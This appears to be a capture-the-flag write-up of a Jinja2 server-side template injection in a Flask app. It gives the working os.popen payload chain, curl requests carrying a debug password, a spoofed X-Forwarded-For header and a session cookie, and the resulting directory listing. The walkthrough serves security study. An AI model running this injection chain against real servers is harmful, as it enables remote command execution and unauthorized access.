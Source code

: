 When rendered by Flask’s `render_template_string`, this returns the list of files in the current directory.

Jinja doesn’t allow direct imports like os, so a dynamic path is needed to reach it. By exploring Python’s object hierarchy, it is possible to find objects that already reference modules such as sys. In this case,

    'hello'.__class__.__base__.__subclasses__()[144]

(a warning-related class) contains a reference to sys, which then provides access to os.

Next, a valid session cookie is retrieved using the command above.
```
$ curl 'http://<target ip>:7777?debug=\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()+\}\}&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 13:06:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJxdzdEKwyAMheFXkcBoC6O0DMbYswREpy1CpqItHYjvvtjd7ebwfxBIAWP1vsITShHZ0jJK6bzbpORYKWhF-Wy9O9qc_8G9Y0h80yOEjDCMMUTrWXQqWWX6QdQKV4gq5yMkwx90JxA_0_Q3F975hZiabg2PVvdWtoP6BR8XNrM.aMLJRg.CxOuQOAaCgSq1wV8M6jUEvZgMis; HttpOnly; Path=/
Connection: close
```
Next, cpoy session cookie and paste into the payload.

```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJxdzdEKwyAMheFXkcBoC6O0DMbYswREpy1CpqItHYjvvtjd7ebwfxBIAWP1vsITShHZ0jJK6bzbpORYKWhF-Wy9O9qc_8G9Y0h80yOEjDCMMUTrWXQqWWX6QdQKV4gq5yMkwx90JxA_0_Q3F975hZiabg2PVvdWtoP6BR8XNrM.aMLJRg.CxOuQOAaCgSq1wV8M6jUEvZgMis'
<body>

    <div class="main">
        <h1 class="title">Debugging Results</h1>
<pre>
<code>

┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">__pycache__
cloud
debugpassword.py
ip.py
source.py
static
supersecrettip.txt
templates
</span>

</code>
</pre>

</body>
```

